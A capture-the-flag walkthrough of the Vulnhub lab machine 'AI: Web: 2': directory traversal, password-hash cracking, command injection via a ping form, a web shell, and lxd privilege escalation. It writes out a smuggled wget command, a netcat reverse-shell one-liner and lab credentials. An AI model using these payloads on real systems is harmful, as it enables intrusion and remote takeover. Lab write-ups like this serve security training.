<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/ai-web-2,357/">AI: Web: 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@arif_xpress">  Mohammad Ariful Islam</a></h4>

## Nmap



Nothing fancy. Let's just start with the port 80

***

## HTTP



We can see two options, one to login and one to signup. If we try to login with some username guessing then we'll get `illegal username`. So I `signup` as `admin` and then login as `admin`


All the of the options were disabled. There was a code section on that page but it was commented so I didn't thought of it much.

I searched for `XuezhuLi FileSharing` using `searchsploit` and found a directory traversal exploit.



I used the directory traversal exploit i.e [XuezhuLi FileSharing - Directory Traversal](https://www.exploit-db.com/exploits/40009) and it worked.



After some guessing I found the hash of the password used.



Now we need to crack the hash.

```
You may need to crack password. Use wordlist SecLists/rockyou-45.txt by Mr. Daniel Miessler.
```

This was given in the description of the machine on Vulnhub. So I downloaded the said list i.e [Seclists/rockyou-45.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-45.txt). And then started John on the hash.

With that list I was able to crack the password in 2 seconds.



`c.ronaldo:aiweb2admin`

I had credentials but there wasn't any place to login. I tried SSH but it didn't worked. So after that I ran `dirsearch` and it found a dir named `webadmin`.



When I tried visiting it I was prompted for username and password. I used the credentials I found and I was in.



Since that sentence is referring to `robots.txt` I opened that and found 2 disallowed directories.



When I visited `http://192.168.184.136/webadmin/H05Tpin9555/#` there was a submit form where we could enter and IP and it might ping it.

I was able to execute command by using `|` after the command.



Now I used this to upload a `phpbash.php` file and then from there I a proper reverse shell.

In order to do so.
* Start a `python -m http.server` in the folder where your `phpbash.php` file is present.
* `3232282625|wget http://192.168.184.1:8000/phpbash.php`

__Here the `3232282625` is the decimal representation of the IP `192.168.184.1`.__

If everything is good then you'll get a shell if you visit `webadmin/H05Tpin9555/phpbash.php`.



Then I used this to run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f` and got a proper shell.



***

## Horizontal Privilege escalation

I couldn't find anything with enumeration script. So I looked in the `/webadmin/S0mextras`, there I found SSH credentials



```
User: n0nr00tuser
Cred: zxowieoi4sdsadpEClDws1sf
```

With those I was able to login via SSH.




***

## Vertical Privilege escalation

[@theart42](https://twitter.com/theart42) figured out that the user `n0nr00tuser` is grouped with `lxd` so we figure that we need to escalate with that.



There is an exploit for that, [Ubuntu 18.04 - 'lxd' Privilege Escalation](https://www.exploit-db.com/exploits/46978).

So I followed the exploit:

*  `wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine`
*  `sudo bash build-alpine`
*  Transfer this build image to the VM.
*  Run the script and you'll find the flag in `/mnt/root/root`





***

This was also pretty good machine. We didn't had to do any guessing or bruteforcing which was really good. Everything was in a flow.

Thanks to [@arif_xpress](https://twitter.com/arif_xpress) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
